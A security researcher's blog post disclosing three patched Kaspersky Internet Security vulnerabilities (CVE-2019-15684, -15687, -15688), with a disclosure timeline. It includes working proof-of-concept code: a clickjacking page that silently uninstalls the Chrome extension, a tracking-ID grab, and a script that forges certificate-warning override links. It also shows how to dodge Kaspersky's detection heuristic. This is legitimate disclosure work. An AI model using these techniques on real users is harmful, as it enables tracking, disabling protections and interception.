 ```yaml
---
categories:
- kaspersky
- security
- privacy
date: 2019-11-27 07:39:29
description: 'More vulnerabilities in Kaspersky software: websites removing Chrome
  extensions, user tracking with unique identifiers and predictable links.'
image: kaspersky-shattered.jpeg
lastmod: '2020-01-05 16:37:39'
title: Assorted Kaspersky vulnerabilities
---
```


This will hopefully be my last article on vulnerabilities in Kaspersky products for a while. With one article on [vulnerabilities introduced by interception of HTTPS connections](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/) and another on [exposing internal APIs to web pages](/2019/11/25/kaspersky-the-art-of-keeping-your-keys-under-the-door-mat/), what's left in my queue are three vulnerabilities without any relation to each other.

{{< img src="kaspersky-shattered.jpeg" width="600" alt="Kaspersky functionality shattered" />}}

*Note*: Lots of technical details ahead. If you only want a high-level summary, there is one [here](/2019/11/27/more-kaspersky-vulnerabilities-uninstalling-extensions-user-tracking-predictable-links/).

{{toc}}

## Summary of the findings

The first vulnerability affects Kaspersky Protection browser extension for Google Chrome (not its Firefox counterpart) which is installed automatically by Kaspersky Internet Security. Arbitrary websites can trick it into uninstalling Chrome browser extensions ([CVE-2019-15684](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15684)). In particular, they can uninstall Kaspersky Protection itself, which will happen silently. Uninstalling other browser extensions will make Google Chrome display an additional confirmation prompt, so social engineering is required to make the user accept it. While this prompt lowers the severity of the issue considerably, the way it has been addressed by Kaspersky is also quite remarkable. The initial attempt to fix this issue took eight months, yet the issue could be reproduced again after making a trivial change.

The second vulnerability is very similar to the one [demonstrated by Heise Online earlier this year](https://www.heise.de/ct/artikel/Kasper-Spy-Kaspersky-Anti-Virus-puts-users-at-risk-4496138.html). While Kaspersky addressed their report in a fairly thorough way and most values exposed to the web by their application were made unsuitable for tracking, one value was overlooked. I could demonstrate how arbitrary websites can retrieve a user identifier which is unique to the specific installation of Kaspersky Internet Security ([CVE-2019-15687](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15687)). This identifier is shared across all browsers and is unaffected by protection mechanisms such as Private Browsing.

Finally, the last issue affects links used by special web pages produced by Kaspersky Internet Security, such as the invalid certificate or phishing warning pages. These links will trigger actions in the application, for example adding an exception for an invalid certificate, overriding a phishing warning or disabling Safe Money protection on a banking site. I could find a way for websites to retrieve the value of one such link and from it to predict the value assigned to future links ([CVE-2019-15688](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15688)). This allows websites to trigger actions from special pages programmatically, without having to trick the user into clicking them via [clickjacking](https://en.wikipedia.org/wiki/Clickjacking) or social engineering.

## Uninstalling any browser extension

### The issue

Kaspersky Internet Security will install its extensions in all your browsers, something that is supposed to make your browsing safer. These extensions have quite a bit functionality. One particular feature caught my eye: the ability to uninstall other browser extensions, for some reason only present in the extension for Google Chrome but not in its Firefox counterpart. Presumably, this is used to remove known malicious extensions.

{{< highlight js >}}
function handleDeletePlugin(request, sender, sendResponse) {
    chrome.management.uninstall(request.id, function () {
        if (chrome.runtime.lastError)
            trySendResponse(sendResponse, { result: -1, errorText: chrome.runtime.lastError.message });
        else
            trySendResponse(sendResponse, { result: 1 });
    });
}
{{< /highlight >}}

This code is triggered by the `ext_remover.html` page, whenever the element with the ID `dbutton` is clicked. That's usually the point where I would stop investigating this, extension pages being out of reach for websites. But this particular page is listed under [web_accessible_resources](https://developer.mozilla.org/en-US/docs/Mozilla/Add-ons/WebExtensions/manifest.json/web_accessible_resources) in the extension manifest. This means that any website is allowed to load this page in a frame.

Not just that, this page (like any pages in this extension meant to be displayed in an injected frame) receives its data via `window.postMessage()` rather than using extension-specific messaging mechanisms. MDN has something to say on the [security concerns](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage#Security_concerns) here:

> If you do expect to receive messages from other sites, always verify the sender's identity using the origin and possibly source properties. Any window (including, for example, `http://evil.example.com`) can send a message to any other window, and you have no guarantees that an unknown sender will not send malicious messages.

As you can guess, no validation of the sender's identity is performed here. So any website can tell that page which extension it is supposed to remove and what text it should display. Oh, and CSS styles are also determined by the embedding page, via `cssSrc` URL parameter. But just in case that the user won't click the button voluntarily, it's possible to use [clickjacking](https://en.wikipedia.org/wiki/Clickjacking) and trick them into doing that.

### The exploit

Here is the complete proof-of-concept page, silently removing Kaspersky Protection extension if the user clicks anywhere on the page.

{{< highlight html >}}
<html>
  <head>
    <script>
      window.onload = function(event)
      {
        let frame = document.getElementById("frame");

        frame.contentWindow.postMessage(JSON.stringify({
          command: "init",
          data: JSON.stringify({
            id: "amkpcclbbgegoafihnpgomddadjhcadd"
          })
        }), "*");

        window.addEventListener("mousemove", event =>
        {
          frame.style.left = (event.clientX - frame.offsetWidth / 2) + "px";
          frame.style.top = (event.clientY - frame.offsetHeight / 2) + "px";
        });
      };
    </script>
  </head>
  <body style="overflow: hidden;">
    <iframe id="frame"
      style="opacity: 0.0001; width: 100px; height: 100px; position: absolute" frameborder="0"
      src="chrome-extension://amkpcclbbgegoafihnpgomddadjhcadd/background/ext_remover.html?cssSrc=data:text/css,%2523dbutton{position:fixed;left:0;top:0;width:100%2525;bottom:0}">
    </iframe>
    <p>
      Click anywhere on this page to get surprised!
    </p>
  </body>
</html>
{{< /highlight >}}

The `mousemove` event handler makes sure that the invisible frame is always placed below your mouse pointer. And the CSS styles provided in the `cssSrc` parameter ensure that the button fills out all the space within the frame. Any click will inevitably trigger the uninstall action. By replacing the `id` parameter it would be possible to remove other extensions as well, not just Kaspersky Protection itself. Luckily, Chrome won't allow extensions to do that silently but will ask for an additional confirmation.

{{< img src="removal_prompt.png" alt="Prompt displayed by the browser when Kaspersky Protection tries to remove another extension" width="348" />}}

So the attackers would need to social engineer the user into believing that this extension actually needs to be removed, e.g. because it is malicious. Normally a rather tricky task, but Kaspersky lending their name for that makes it much easier.

### Is this fixed?

In July 2019 Kaspersky notified me about this issue being resolved. They didn't ask me to verify, and so I didn't. However, when writing this blog post, I wanted to see what their fix looked like. So I got the new browser extension from Kaspersky Internet Security 2020, unpacked it and went through the source code. Yet this approach didn't get me anywhere, the logic looked exactly the same as the old one.

So I tried to see the extension in action. I opened my proof-of-concept page and was greeted with this message:

{{< img src="blocked.png" alt="Kaspersky blocking proof-of-concept page as HEUR:Exploit.Script.Generic" width="405" />}}

I figured that adding a heuristic for my proof-of-concept is a precaution, maybe a stopgap solution for older versions which didn't receive the proper fix yet. The heuristic appeared to look for the strings `contentWindow`, `postMessage` and `background/ext_remover.html` in the page source and would only fire if all of them were found. Of course, that's trivial to circumvent, e.g. by turning a slash into a backslash, so that it is `background\ext_remover.html`.

Ok, the page loads but the frame doesn't. Turns out, extension ID changed in the new version, that one is easily updated. Clicking the page... What? The extension is gone? Does it mean that this heuristic actually _is_ their fix? My brain just exploded.

When I notified Kaspersky they immediately confirmed my findings. They also promised that they would be investigating how this could have happened. While it's unlikely that anybody will ever learn the results of their investigation, I just cannot help thinking that somebody somewhere within their organization must have thought that masking the issue with a heuristic would be sufficient to make the problem go away. And their peers didn't question this conclusion.

### The real fix

A few weeks ago Kaspersky again notified me about the issue being resolved. This time the fix was obvious from the source code:

{{< highlight js >}}
if (origin !== "http://touch.kaspersky.com")
  return;
{{< /highlight >}}

The origin check here makes sure that websites normally won't be able to exploit this vulnerability. Unless somebody manages to inject JavaScript code into the `touch.kaspersky.com` domain. Which is easier than it sounds, given that we are talking about an unencrypted connection -- note `http:` rather than `https:` being expected here. According to Kaspersky, this part is fixed as well now and the patch is currently being rolled out.

## Tracking users with Kaspersky

### The issue

In August this year, Heise Online [demonstrated](https://www.heise.de/ct/artikel/Kasper-Spy-Kaspersky-Anti-Virus-puts-users-at-risk-4496138.html) how Kaspersky software provides websites with unique user identifiers which can be abused for tracking -- regardless of Private Browsing mode and even across different browsers. What I noticed in my previous research: Kaspersky software generates a number of different user-specific identifiers, many within the reach of web pages. I took a look and all of these identifiers were either turned into constants (identical across all installations) or stay only valid for a single session.

That is, almost all of them. The `main.js` script that Kaspersky Internet Security injects into web pages starts like this:

{{< highlight js >}}
var KasperskyLab = {
  SIGNATURE: "427A2927-6E16-014D-99C8-EDF9A859272B",
  CSP_NONCE: "CAD1B86EE5BAB74FB865E59BE19D9AE9",
  PLUGINS_LIST: "",
  PREFIX: "http://gc.kis.v2.scr.kaspersky-labs.com/",
  INJECT_ID: "FD126C42-EBFA-4E12-B309-BB3FDD723AC1",
  WORK_IDENTIFIERS: "427A2927-6E16-014D,921A7D4E-AD84-244A,570FF4E7-B048-1D4E,979DF469-AA8E-C049"
};
{{< /highlight >}}

`SIGNATURE` and `CSP_NONCE` change every time Kaspersky Internet Security is restarted, `INJECT_ID` is the same across all installations. But what about `WORK_IDENTIFIERS`? This key contains four values. The first one is clearly a substring of `SIGNATURE`, meaning that it is largely useless for tracking purposes. But the other three turned out to be installation-specific values.

How would a website get hold of the `WORK_IDENTIFIERS` value? It cannot just download `main.js`, this is prohibited by the same-origin policy. But there is actually an easier way, thanks to how this script processes it:

{{< highlight js >}}
if (ns.WORK_IDENTIFIERS)
{
  var workIdentifiers = ns.WORK_IDENTIFIERS.split(",");
  for (var i = 0; i < workIdentifiers.length; ++i)
  {
    if (window[workIdentifiers[i]])
    {
      ns.AddRunner = function(){};
      return;
    }
    window[workIdentifiers[i]] = true;
  }
}
{{< /highlight >}}

Explanation: every value within `WORK_IDENTIFIERS` ends up as a property on the `window` object (a.k.a. global variable in JavaScript), apparently to guard against multiple executions of this script. And that's where web pages can access them as well.

### The exploit

The piece of code below looks up all properties containing `-` in their name. This is sufficient to remove all default properties, only the properties added by Kaspersky will be left.

{{< highlight js >}}
let keys = Object.keys(window).filter(k => k.includes("-")).slice(1);
if (keys.length)
  alert("Your Kaspersky ID: " + keys.join(","));
{{< /highlight >}}

For reasons of simplicity this abuses an implementation detail in Chrome's and Firefox's JavaScript engines. While theoretically the order in which properties are returned by `Object.keys()` is undefined, in this particular scenario they will be returned in the order in which they were added. This makes it easier to remove the first property which isn't suitable for purposes of user tracking.

{{< img src="tracking_id.png" alt="Tracking ID displayed by a website, based on Kaspersky's data" width="432" />}}

One more note: even if Kaspersky Internet Security is installed, its script might not be injected into web pages. That is especially the case if Kaspersky Protect browser extension is installed. But that doesn't mean that this issue isn't exploitable then. The website can just load this script by itself, its location being predictable as of Kaspersky Internet Security 2020.

### The fix

As of Kaspersky Internet Security 2020 Patch E (presumably also Kaspersky Internet Security 2019 Patch I which I didn't test) the code processing `WORK_IDENTIFIERS` is still part of the script, but the value itself is gone. So no properties are being set on the `window` object.

## Controlling Kaspersky functionality with links

### The issue

Kaspersky software breaking up all HTTPS connections in order to inspect the contents was already topic of a [previous article](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/). There I mentioned an implication: if you break up HTTPS connections, you also become responsible for implementing warnings on invalid certificates as such. Here what this warning looks like then:

{{< img src="certwarning_kaspersky.png" alt="Certificate warning page when Kaspersky is installed" width="750" />}}

I've already demonstrated how the link titled "I understand the risks" here is [susceptible to clickjacking attacks](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/#using-clickjacking-to-override-certificate-warnings), websites can make the user click it without realizing what they are clicking. However, if you look at how this link works, an even bigger issue becomes apparent.

If you (like me) expected some JavaScript code at work here, connecting to the Kaspersky application in an elaborate fashion: no, nothing like that here. In fact, it's a plain link of the form `https://93.184.216.34/?1568807468_kis_cup_01234567_89AB_CDEF_0123_456789ABCDEF_`. Here, `https://93.184.216.34/` is the website that the certificate warning applies to. It never receives this request however, the request being processed by the local Kaspersky application instead -- if the magic parameter is found valid. The part starting with `_kis_cup_` is identical for all links on this machine. The only part changing is `1568807468`. What is it? If you guessed that it is a Unix timestamp, then you are mostly correct. But it doesn't indicate the time when the link was generated, it rather appears to be related to the time when the Kaspersky application started. And it is incremented with each new link generated.

### The exploit

Altogether, this means that you only need to see one link and you will be able to guess what future links will look like. But how to get your hands on this link, with the same-origin policy in place? Right, you need to access a certificate warning page for your own site. My proof-of-concept server would serve up two different SSL certificates: first a valid one, allowing the proof-of-concept page to load, then an invalid one, making sure that the proof-of-concept page downloading itself will receive the Kaspersky certificate warning page. So if we hijacked the traffic to google.com but don't want the user to see a certificate warning page, we could do something like this:

{{< highlight js >}}
fetch(location.href).then(response =>
{
  return response.text();
}).then(text =>
{
  let match = /url-falsepositive.*?href="([^"]+)/.exec(text);
  let url = match[1];
  url = url.replace(/\?\d+/, match =>
  {
    return "?" + (parseInt(match.substr(1), 10) + 2);
  }).replace(/^[^?]+/, "https://www.google.com/");

  fetch("https://www.google.com/").catch(e =>
  {
    location.href = url;
  });
});
{{< /highlight >}}

After downloading the certificate warning page for our own website, we extract the override link. We replace the host part of that link to make it point to google.com and increase the "timestamp" by two (there are two links on each certificate warning page). After that we trigger downloading a page from google.com -- we won't get to see the response of course, but Kaspersky will generate a certificate warning page here and our override link becomes valid. Loading it then will trigger a generic warning from Kaspersky:

{{< img src="override_warning.png" alt="Warning displayed by Kaspersky when overriding a certificate" width="456" />}}

If we can social engineer the user into accepting this warning, we'll have successfully overridden the certificate for google.com and can now do our evil thing with it. The [previous article](/2019/08/19/kaspersky-in-the-middle-what-could-possibly-go-wrong/#using-clickjacking-to-override-certificate-warnings) already demonstrated what this social engineering might look like.

And this isn't the only thing we can do, similar links are used in other places as well. For example, Kaspersky Internet Security has a feature called Safe Money which makes sure that banking websites are opened in a separate browser profile. So when you first open a banking site you will see a prompt like the one below.

{{< img src="safe_money.png" alt="Safe Money prompt asking the user whether to open the site in a protected browser" width="750" />}}

How these buttons work? You guessed it, they are using links exactly like the ones on certificate warning pages. And it's the same incremental counter as well. So using the same approach as above we could also disable Safe Money on banking websites, and this functionality won't even prompt for additional confirmation.

There is also phishing protection functionality in Kaspersky Internet Security. So if you happen on a phishing page, you will see a Kaspersky warning instead. The override links there look like `http://touch.kaspersky.com/kis_cup_01234567_89AB_CDEF_0123_456789ABCDEF_1568807468`. That's actually the same values as with the certificate warning page, merely rearranged. So an arbitrary website will also be able to override these phishing warning pages.

I'm going to stop here, don't want to bore you will all the features in this application relying on this kind of links.

### The fix

Kaspersky Internet Security 2019 Patch F replaced the timestamp in the links by a randomly generated GUID. This makes sure that the links aren't predictable, so the attack no longer works. It doesn't fully address the clickjacking scenario however, which is probably why Kaspersky Internet Security 2020 for a while stopped displaying certificate warning pages altogether. Instead, there was a message displayed outside the browser. Probably a good choice, but this change was reverted for some reason.

Interestingly, I've since looked at Avast/AVG products which also break up HTTPS connections. These managed to do it without replacing browser's certificate warning pages however. Their approach: don't touch connections with invalid certificates, let the browser reject them instead. Also, when replacing valid certificates by their own, keep certificate subject unchanged so that name mismatches will be flagged by the browser. Maybe Kaspersky could consider that approach as well?

## Timeline

* 2018-12-18: Sent report via Kaspersky bug bounty program: [Predictable links on certificate warning pages.](https://hackerone.com/reports/469372)
* 2018-12-21: Sent report via Kaspersky bug bounty program: [Websites can trigger uninstallation of browser extensions.](https://hackerone.com/reports/470519)
* 2018-12-24: Kaspersky acknowledges the issues and says that they are working on fixing them.
* 2019-07-29: Kaspersky notifies me about these two issues being fixed in KIS 2020.
* 2019-07-29: Requested disclosure of my reports.
* 2019-08-05: Kaspersky denies disclosure, citing that users need time to update.
* 2019-08-19: Notified Kaspersky that I plan to publish a blog post on these issues on 2019-11-25.
* 2019-08-19: Sent report via email: Exposure of unique user ID. Disclosure deadline: 2019-11-25.
* 2019-08-19: Kaspersky confirms receiving the new report.
* 2019-09-18: Sent report via email: Websites can still trigger uninstallation of browser extensions. Disclosure deadline is still 2019-11-25, given how trivial it is to modify the original proof of concept.
* 2019-09-19: Kaspersky confirms that the vulnerability still exists and acknowledges the deadline.
* 2019-11-07: Kaspersky notifies me about the remaining issues being fixed in 2019 (Patch I) as well as 2020 (Patch E) family of products.
* 2019-11-15: Evaluated the fixes and notified Kaspersky about extension uninstall being still possible to trigger via Man-in-the-Middle attack.
* 2019-11-22: Kaspersky notifies me about the remaining attack surface being removed in the patch supposed to become available by 2019-11-28.